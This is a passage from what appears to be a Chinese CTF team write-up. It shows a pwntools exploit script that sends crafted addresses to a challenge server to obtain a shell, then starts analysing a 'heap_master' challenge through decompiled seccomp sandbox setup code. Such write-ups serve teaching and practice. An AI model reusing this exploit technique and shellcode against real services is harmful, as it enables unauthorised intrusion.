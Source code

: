 ```python
from pwn import *

p = remote("pwn.challenge.mini.lctf.online",10091)
elf = ELF("easycpp")
libc = ELF("libc.so.6")

context.log_level = "debug"
context.arch = "i386"

payload1 = asm(shellcraft.sh())
p.sendline(p32(0x804A0C0+4)+p32(0x80487bb))

p.interactive()
```



### heap_master | Author: eqqie

果然sad都有困难的题对我来说更难了，于是一顿疯狂gooooooogle，查到了一些类似的题，找到了点思路，然后一顿爆炸调试才解决。有点可惜一血被外校拿了...

#### **逆向分析**

开局暴击，由于使用了沙箱机制，execve的syscall被禁用了，可以查看init函数：

```c
  v31 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);                          // 无缓冲
  prctl(38, 1LL, 0LL, 0LL, 0LL);
  v3 = 32;
  v4 = 0;
  v5 = 0;
  v6 = 4;
  v7 = 21;
  v8 = 0;
  v9 = 4;
  v10 = -1073741762;
  v11 = 32;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  v15 = 53;
  v16 = 2;
  v17 = 0;
  v18 = 0x40000000;
  v19 = '\x15';
  v20 = 1;
  v21 = 0;
  v22 = 59;
  v23 = 6;
  v24 = 0;
  v25 = 0;
  v26 = '\xFF\0\0';
  v27 = 6;
  v28 = 0;
  v29 = 0;
  v30 = 0;
  v1 = 7;
  v2 = &v3;
  prctl(22, 2LL, &v1);
  return __readfsqword(0x28u) ^ v31;
```
